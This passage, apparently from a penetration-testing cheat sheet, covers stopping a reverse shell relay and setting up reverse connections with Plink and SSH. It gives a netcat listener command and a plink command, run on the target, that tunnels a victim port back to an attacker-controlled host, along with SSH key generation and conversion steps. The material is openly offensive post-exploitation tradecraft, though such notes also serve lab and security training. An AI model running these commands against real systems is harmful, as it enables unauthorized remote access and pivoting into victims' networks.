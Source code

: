     4. **Stop Reverse Shell Relay**

        ```sh
        # Stop backgrounds
        jobs
        # kill %<NUMBER>
        kill %1
        ```

<br />

## Reverse Connection

- **Plink (Windows)**

    **Plink** is a Windows command line version of the PuTTY SSH client.

    1. **Open Lisnter in Your Local Machine**

        ```sh
        nc -lvnp 4444
        ```

    2. **Run Reverse Connection in Target Machine**

        First of all, generate SSH keys. Two keys (public and private) will be generated.

        ```sh
        ssh-keygen
        ```

        Convert the private key for Windows.

        ```sh
        puttygen private_key -o private_key.ppk
        ```

        Run reverse connection using plink.

        ```powershell
        cmd.exe /c echo y | .\plink.exe -R <attack-port>:<victim-ip>:<victim-port> attacker@<attack-ip> -i private_key.ppk -N
        ```

- **SSH**

    1. **Generate SSH Keys in Remote Machine**

        ```sh
        ssh-keygen
        ```

        Then save them (public key and private key) to arbitrary folder.

        ```sh
        mkdir /home/remote-user/reverse-keys
        mv id_rsa /home/remote-user/reverse-keys
        mv id_rsa.pub /home/remote-user/reverse-keys
        ```
